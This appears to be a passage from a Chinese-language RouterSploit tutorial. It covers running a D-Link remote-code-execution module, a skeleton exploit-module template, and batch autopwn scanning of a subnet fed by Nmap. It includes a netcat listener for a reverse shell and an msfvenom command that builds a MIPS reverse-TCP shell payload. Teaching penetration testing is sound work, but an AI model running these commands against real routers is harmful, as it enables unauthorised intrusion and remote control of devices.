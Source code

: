 # 在执行前，在另一个终端启动监听
# nc -nvlp 4444

rsf (D-Link DIR-8XX RCE) > run
4. 模块开发基础
RouterSploit 的模块结构相对简单。一个基本的漏洞利用模块包含：

python
from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient

class Exploit(HTTPClient):
    __info__ = {
        "name": "Example Router RCE",
        "description": "Exploit description here",
        "authors": ("YourName",),
        "references": ("CVE-2020-XXXXX",),
        "devices": ("Vendor Model",)
    }
    
    target = OptIP("", "Target IP address")
    port = OptPort(80, "Target HTTP port")
    
    def run(self):
        # 漏洞利用逻辑在这里实现
        if self.check():
            print_success("Target is vulnerable!")
            # 执行利用代码...
        else:
            print_error("Target is not vulnerable")
    
    def check(self):
        # 漏洞验证逻辑
        return True  # 或 False
十三、集成到自动化工作流
1. 与 Nmap 集成
bash
# 使用 Nmap 发现设备，然后使用 RouterSploit 测试
nmap -sS -p 80,443,22,23 192.168.1.0/24 -oG - | grep "80/open" | awk '{print $2}' > targets.txt

# 使用 RouterSploit 批量测试
for ip in $(cat targets.txt); do
    echo "Testing $ip"
    python3 rsf.py -m "scanners/autopwn" -s "target $ip" -s "run"
done
2. 与 Metasploit 协同工作
bash
# 1. 使用 RouterSploit 获取初始访问
# 2. 使用 Metasploit 生成 payload
msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > payload.elf
